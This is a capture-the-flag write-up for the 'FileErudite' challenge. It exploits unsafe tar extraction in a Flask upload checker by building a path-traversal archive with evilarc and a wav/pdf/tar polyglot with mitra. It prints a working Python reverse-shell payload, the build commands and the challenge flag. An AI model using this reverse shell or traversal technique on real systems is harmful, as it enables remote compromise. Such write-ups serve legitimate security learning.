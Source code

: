 # FileErudite
——————— 𝘼𝙪𝙩𝙝𝙤𝙧 𝙣𝙤𝙩𝙚 ———————<br>
𝗖𝗵𝗮𝗹𝗹𝗲𝗻𝗴𝗲’𝘀 𝗻𝗮𝗺𝗲: FileErudite.<br>
𝗖𝗮𝘁𝗲𝗴𝗼𝗿𝘆: Web/Misc.<br>
𝗗𝗲𝘀𝗰𝗿𝗶𝗽𝘁𝗶𝗼𝗻: Who said files are simple? In the right<br>
circumstances they can be very complex and surprisingly<br>
weird. Here at FileErudite we discover the weirdness<br>
of files. If you want to take the journey come and join us<br>
but first, you have to prove you have what it takes!<br>
Here starts the adventure: https://gofile.io/d/jywV3Y<br>
——————————————————————— <br>
![alt challenge](./fileerudite.png)

This flask application takes a file and checks if it's a valid wave, pdf and tar file if it passes that check it will extract it<br>
to the './extracted/' directory, then it will execute a python script located at the parent directory '../join_us.py' <br>
```python
def check(file):
    if valid_tar(file) and valid_wave(file) and valid_pdf(file):
        try:
            with tarfile.open(file) as tar:
                os.system(f'rm -rf{EXTRACT_FOLDER}/*')
                tar.extractall(EXTRACT_FOLDER)
        except:
            return False

        os.system('python3 ../join_us.py ')
        os.system(f'rm -rf {EXTRACT_FOLDER}/*')
        isvalid = True
    else:
        isvalid = False

    os.system(f"rm {file}")
    return isvalid
```
We can't abuse the uploaded filename because it's randomized, so we need to pass that check and overwrite '../join_us.py'<br>
We can create a tar file that contains a reverse-shell python script with the filename '../../join_us.py' using [evilarc](https://github.com/ptoomey3/evilarc)<br>
then taring it so it will get extracted to './extracted/../../join_us.py' overwriting the existing file, then we need to make a binary polyglot file using [mitra](https://github.com/corkami/mitra) that is a valid wav, pdf and tar file<br>(ps: the order of the arguments matter for mitra)
```python
import sys,socket,os,pty

s=socket.socket()
s.connect(("ip_address",port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")
```
```
python2 evilarc.py join_us.py --out file.tar
./mitra.py file.wav file.pdf -o ./
./mitra.py [generated_file.waw.pdf] file.tar -o ./
```
## Flag
```
shellmates{0ne_fIl3_T0_RuLe_T|-|em_4ll}

